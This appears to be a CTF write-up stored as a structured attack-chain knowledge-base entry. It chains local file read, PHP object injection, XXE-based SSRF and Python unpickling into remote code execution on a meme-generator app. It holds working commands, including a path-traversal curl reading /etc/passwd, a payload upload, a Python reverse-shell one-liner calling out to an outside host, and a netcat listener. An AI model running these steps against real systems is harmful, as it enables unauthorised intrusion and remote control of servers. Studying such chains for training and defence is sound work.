

---
tags:
  - lfr
  - php-object-injection
  - xxe
  - ssrf
  - python-unpickling
  - rce
  - deserialization
type: attack_chain
tools:
  - '[[tools/Custom-PHP-Exploit-Script]]'
  - '[[tools/Custom-Python-Pickle-Script]]'
  - '[[tools/netcat]]'
tactics:
  - '[[Initial Access]]'
  - '[[Execution]]'
  - '[[Discovery]]'
verified: false
platforms:
  - Web
  - PHP
  - Python
  - Linux
submitted: true
complexity: medium
created_at: '2023-10-01T00:00:00Z'
procedures:
  - '[[procedures/Exploit-Local-File-Read-to-Read-System-Files-and-PHP-Source]]'
  - '[[procedures/Identify-Vulnerabilities-by-Reading-PHP-Source-Files]]'
  - '[[procedures/Exploit-PHP-Object-Injection-to-Trigger-XXE-via-SSRF]]'
  - '[[procedures/Exploit-Python-Unpickling-in-Internal-Service]]'
  - '[[procedures/Achieve-RCE-and-Read-Flag]]'
step_count: 5
techniques:
  - '[[File and Directory Discovery]]'
  - '[[Python]]'
  - '[[Exfiltration Over Alternative Protocol]]'
  - '[[Exploitation for Client Execution]]'
updated_at: '2025-12-14T17:23:50.039Z'
description: >-
  A multi-stage vulnerability chain exploiting Local File Read to discover PHP
  Object Injection, which triggers XXE for SSRF to an internal Python service
  vulnerable to unpickling, leading to remote code execution and flag retrieval.
skill_level: intermediate
impact_level: high
id: 71d15153-34a2-47e9-b204-66deb460ca98
validated: true
mitre_tactics:
  - '[[Initial Access]]'
  - '[[Execution]]'
  - '[[Discovery]]'
mitre_techniques:
  - '[[File and Directory Discovery]]'
  - '[[Python]]'
  - '[[Exfiltration Over Alternative Protocol]]'
  - '[[Exploitation for Client Execution]]'
---
# RCE via Chained Local File Read, PHP Object Injection, XXE SSRF, and Python Unpickling

The attack chain begins with a Local File Read (LFR) vulnerability in the meme generation endpoint, allowing arbitrary file reads to expose sensitive system files and PHP source code. This reconnaissance reveals a PHP Object Injection vulnerability in the import functionality due to unsafe unserialization. By injecting a malicious ConfigFile object, the chain triggers an XXE vulnerability in the object's parse method when echoed in the session, enabling SSRF to an internal Python service on localhost:1337. The internal service is vulnerable to unsafe Python unpickling, which is exploited with a crafted pickle payload to achieve remote code execution (RCE), ultimately allowing access to the flag file in a CTF scenario.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 5 |
| Execution Time | ~30 minutes |
| Skill Level | Intermediate |
| Complexity | Medium |
| Impact Level | High |

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- [[tools/Custom-PHP-Exploit-Script]]
- [[tools/Custom-Python-Pickle-Script]]
- [[tools/netcat]]

### Target Environment

- Web application running PHP (e.g., Apache/Nginx)
- Internal Python service on localhost:1337
- Linux-based server
- Ports: 80/443 (external), 1337 (internal)

### Initial Access Requirements

- Network access to the public web application
- No credentials required (unauthenticated endpoints)
- Attacker-controlled server for reverse shell (e.g., port 443 open)

## Detailed Attack Procedures

### Step 1: Exploit Local File Read
procedure: [[procedures/Exploit-Local-File-Read-to-Read-System-Files-and-PHP-Source]]

**Objective**: Read arbitrary files including /etc/passwd and PHP source code to expose further vulnerabilities.

**Instructions**: Send a POST request to /api/generate.php with a path traversal payload in the 'template' parameter to read files. For example, use [[commands/exploit-lfr-read-etc-passwd]] to target /etc/passwd:

```bash
curl -X POST http://target.com/api/generate.php -d "template=../../../../../../../etc/passwd&type=text&top-text=ad&bottom-text=asd"
```

The response includes a 'meme_path' pointing to the read file contents. Repeat for PHP files like config.php.

**Expected Output**: JSON response with {"meme_path": "../data/memes/<random>.txt"} containing the file contents.

**Success Indicators**:
- File contents visible in generated path
- System users or PHP code exposed

### Step 2: Identify Vulnerabilities
procedure: [[procedures/Identify-Vulnerabilities-by-Reading-PHP-Source-Files]]

**Objective**: Audit exposed PHP source to discover Object Injection and XXE vulnerabilities.

**Instructions**: Using LFR from Step 1, read files like config.php, classes.php, export_memes_2.0.php, and import_memes_2.0.php. Look for unserialize calls on user input and XXE in DOMDocument usage. No specific command needed beyond LFR exploitation.

**Expected Output**: Source code revealing unserialize($_FILES['f']) in import and XXE in ConfigFile::parse().

**Success Indicators**:
- Identification of unsafe unserialization
- Discovery of XXE via LIBXML_NOENT | LIBXML_DTDLOAD flags

### Step 3: Exploit PHP Object Injection for XXE SSRF
procedure: [[procedures/Exploit-PHP-Object-Injection-to-Trigger-XXE-via-SSRF]]

**Objective**: Inject a malicious ConfigFile object to trigger XXE and SSRF to localhost:1337.

**Instructions**: Generate a serialized payload using [[tools/Custom-PHP-Exploit-Script]] or [[commands/generate-php-serialized-configfile-with-xxe]] with target URL http://localhost:1337/status:

```bash
php exploit.php http://localhost:1337/status
```

Upload the base64-encoded serialized array via multipart POST using [[commands/upload-php-object-injection-payload]]:

```bash
curl -X POST http://target.com/api/import_memes_2.0.php -F "f=@payload.memepak"
```

Visit /memes.php to trigger __toString() and parse(), causing XXE SSRF.

**Expected Output**: Internal service response (e.g., status from localhost:1337) echoed in application output.

**Success Indicators**:
- SSRF response visible
- Internal endpoint probed successfully

### Step 4: Exploit Python Unpickling
procedure: [[procedures/Exploit-Python-Unpickling-in-Internal-Service]]

**Objective**: Craft and deliver a malicious pickle via XXE SSRF to achieve RCE.

**Instructions**: Generate a base64 pickle payload using [[tools/Custom-Python-Pickle-Script]] or [[commands/generate-python-malicious-pickle-for-rce]] with reverse shell command:

```bash
python pickle_exploit.py "python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"rce.ee\",443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([\"/bin/sh\",\"-i\"]);'"
```

Embed the base64 pickle in XXE entity targeting /update-status?status=<base64_pickle>&debug=1, then upload via [[commands/upload-final-xxe-with-unpickling-payload]] similar to Step 3.

**Expected Output**: Pickle executed, reverse shell connects.

**Success Indicators**:
- Internal service processes pickle
- No errors in SSRF response

### Step 5: Achieve RCE and Read Flag
procedure: [[procedures/Achieve-RCE-and-Read-Flag]]

**Objective**: Use reverse shell to execute commands and retrieve the flag.

**Instructions**: Listen for shell with [[tools/netcat]]:

```bash
nc -lvnp 443
```

Once connected, navigate to /app and run [[commands/read-flag-file]]:

```bash
cat flag.txt
```

**Expected Output**: Shell prompt; flag content displayed.

**Success Indicators**:
- Interactive shell established
- Flag retrieved: flag{cha1n1ng_bugs_f0r_fun_4nd_pr0f1t?_or_rep0rt_an_LF1}

## Attack Chain Summary

### Key Achievements

1. Exposed sensitive files and source code via LFR
2. Chained deserialization to XXE for internal SSRF
3. Exploited unpickling for full RCE
4. Retrieved CTF flag via shell access

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[File and Directory Discovery]] File and Directory Discovery (LFR)
- [[Exploitation for Client Execution]] Exploitation for Client Execution (Object Injection and XXE)
- [[Exfiltration Over Alternative Protocol]] Exfiltration Over Alternative Protocol (SSRF)
- [[Python]] Command and Scripting Interpreter: Python (Unpickling RCE)

### MITRE ATT&CK Tactics

- [[Initial Access]] Initial Access (Exploit Public-Facing Application)
- [[Execution]] Execution (RCE via deserialization)
- [[Discovery]] Discovery (File reads)

---

*Last updated: 2023-10-01T00:00:00Z*
